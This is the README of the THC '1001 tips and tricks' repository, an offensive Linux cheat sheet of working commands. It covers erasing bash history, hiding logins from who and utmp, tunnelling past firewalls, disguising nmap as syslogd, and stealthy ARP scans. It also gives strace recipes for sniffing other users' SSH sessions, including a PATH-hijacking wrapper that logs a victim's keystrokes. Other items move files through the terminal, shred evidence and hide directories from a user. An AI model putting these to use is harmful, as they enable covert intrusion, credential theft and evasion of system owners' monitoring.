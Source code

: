# thc-1001-tips-and-tricks
Various tips &amp; tricks

A collection of our favorite tricks. Many of those tricks are not from us. We merely collect them.

We show the tricks 'as is' without any explanation why they work. You need to know Linux to understand how and why they work.

Got tricks? Send them to root@thc.org.


**1. Leave bash without history:**

Tell Bash that there is no history file (*~/.bash_history*).
```
$ unset HISTFILE
```
This is the first command we execute on every shell. It will stop the Bash from logging your commands.

It is good housekeeping to 'commit suicide' when exiting the shell:
```
$ kill -9 $$
```

**2. Almost invisible ssh**

```
$ ssh -o UserKnownHostsFile=/dev/null -T user@host.org "bash -i"
```
This will not add your user to the */var/log/utmp* file and you wont show up in *w* or *who* command of logged in users. On your client side it will stop logging the host name to *~/.ssh/known_hosts*.

**3. SSH tunnel OUT**

We use this all the time to circumvent local firewalls or IP filtering:
```
$ ssh -g -L31337:1.2.3.4:80 user@host.org
```
You or anyone else can now connect to your computer on port 31337 and gets connected to 1.2.3.4:80 and appearing from host 'host.org'

**4. SSH tunnel IN**

We use this to give access to a friend to an internal machine that is not on the public Internet:
```
$ ssh -o ExitOnForwardFailure=yes -g -R31338:192.168.0.5:80 user@host.org
```
Anyone connecting to host.org:31338 will get connected to the compuyter 192.168.0.5 on port 80 via your computer.

**5. Hide your command**

```
$ cp `which nmap` syslogd
$ PATH=.:$PATH syslogd -T0 10.0.2.1/24
```
In this example we execute *nmap* but let it appear with the name *syslogd* in *ps alxwww* process list

**6. Hide your arguments**

Continuing from above..FIXME: can this be done witout LD_PRELOAD and just in Bash?

**7. ARP discover computers on the local network**
```
$ nmap -r -sn -PR 192.168.0.1/24
```
This will Arp-ping all local machines. ARP ping always seems to work and is very steahlthy (e.g. does not show up in the target's firewall).

**8. Sniff a SSH session**
```
$ strace -p <PID of ssh> -e trace=read -o ~/.ssh/ssh_log.txt
$ grep 'read(4' ~/.ssh/ssh_log.txt | cut -f1 -d\"
```
Dirty way to monitor a user who is using ssh to connect to another host from a computer that you control.

**9. Sniff a SSH session without root priviledges**

Even dirtier way in case */proc/sys/kernel/yama/ptrace_scope* is set to 1 (strace will fail on already running SSH clients unless uid=0)

Create a wrapper script called 'ssh' that executes strace + ssh to log the session:
```
# Add ~/.ssh to the execution PATH variable so our 'ssh' is executed instead of the real ssh:
$ echo '$PATH=~/.local/bin:$PATH' >>~/.profile

# Create our log directory and our own ssh binary
$ mkdir ~/.ssh/.logs
$ mkdir -p ~/.local/bin ~/.ssh/logs

$ cat >~/.local/bin/ssh
#! /bin/bash
strace -e trace=read -o '! ~/.local/bin/ssh-log $$' /usr/bin/ssh $@
# now press CTRL-d to close the file.

$ cat ~/.local/bin/ssh-log
#! /bin/bash
grep 'read(4' | cut -f2 -d\" | while read -r x; do
        if [ ${#x} -ne 2 ] && [ ${#x} -ne 1 ]; then continue; fi
        if [ x"${x}" == "x\\n" ] || [ x"${x}" == "x\\r" ]; then
                echo ""
        else
                echo -n "${x}"
        fi
done >~/.ssh/.logs/ssh-log-"${1}"-`date +%s`.txt
# now press CTRL-d to close the file

$ chmod 755 ~/.local/bin/ssh ~/.local/bin/ssh-log
```

The SSH session will be sniffed and logged to *~/.ssh/logs/* the next time the user logs into his shell and uses SSH.

**10. File Encoding - uuencode**

Binary files transfer badly over a terminal connection. There are many ways to convert a binary into base64 or similar and make the file terminal friendly. We can then use a technique described further on to transfer a file to and from a remote system using nothing else but the shell/terminal as a transport medium (e.g. no separate connection).

Encode:
```
$ uuencode /etc/issue.net issuer.net-COPY
begin 644 issue-net-COPY
356)U;G1U(#$X+C`T+C(@3%13"@``
`
end
```
Cut & paste the output (4 lines, starting with 'being 644 ...') into this command:
Decode:
```
$ uudecode
begin 644 issue-net-COPY
356)U;G1U(#$X+C`T+C(@3%13"@``
`
end
```

**11. File Encoding - openssl**

Openssl can be used when uu/decode/encode is not available on the remote system:

Encode:
```
$ openssl base64 </etc/issue.net
VWJ1bnR1IDE4LjA0LjIgTFRTCg==
```
Cut & paste the output into this command:
```
$ openssl base64 -d >issue.net-COPY
```

**12. File Encoding - xxd**

..and if neither *uuencode* nor *openssl* is available then we have to dig a bit deeper in our trick box and use *xxd*.

Encode:
```
$ xxd -p </etc/issue.net
726f6f743a783a303a30...
```

Cut & paste the output into this command:
Decode:
```
$ xxd -p -r >issue.net-COPY
```

**13. File transfer - screen from REMOTE to LOCAL**

Transfer a file FROM the remote system to your local system:

Have a *screen* running on your local computer and log into the remote system from within your shell. Instruct your local screen to log all output:

> CTRL-a : logfile screen-xfer.txt

> CTRL-a H

We use *openssl* to encode our data but any of the above encoding methods works. This command will display the base64 encoded data in the terminal and *screen* will write this data to *screen-xfer.txt*:

```
$ openssl base64 </etc/issue.net
```

Stop your local screen from logging any further data:

> CTRL-a H 

On your local computer and from a different shell decode the file:
```
$ openssl base64 -d <screen-xfer.txt
$ rm -rf screen-xfer.txt
```

**13. File transfer - screen from LOCAL to REMOTE**

On your local system (from within a different shell) encode the data:
```
$ openssl base64 </etc/issue.net >screen-xfer.txt
```

On the remote system (and from within the current *screen*):
```
$ openssl base64 -d
```

Get *screen* to slurp the base64 encoded data into screen's clipboard and paste the data from the clipboard to the remote system:

> CTRL-a : readbuf screen-xfer.txt

> CTRL-a : paste .

> CTRL-d

> CTRL-d

Note: Two C-d are required due to a [bug in openssl](https://github.com/openssl/openssl/issues/9355).

**14. Shred & Erase a file**

```
$ shred -z foobar.txt
```

**15. Shred & Erase without *shred***
```
$ FN=foobar.txt; dd bs=1k count="`du -sk \"${FN}\" | cut -f1`" if=/dev/urandom >"${FN}"; rm -f "${FN}"
```
Note: Or deploy your files in */dev/shm* directory so that no data is written to the harddrive. Data will be deleted on reboot.

Note: Or delete the file and then fill the entire harddrive with /dev/urandom and then rm -rf the dump file.

**16. Hide files as User from that User**

```
alias ls='ls -I SecretDirectory'
```

This will hide the directory *SecretDirectory* from the *ls* command. Place in user's *~/.profile*.


--------------------------------------------------------------------------
Shoutz: ADM


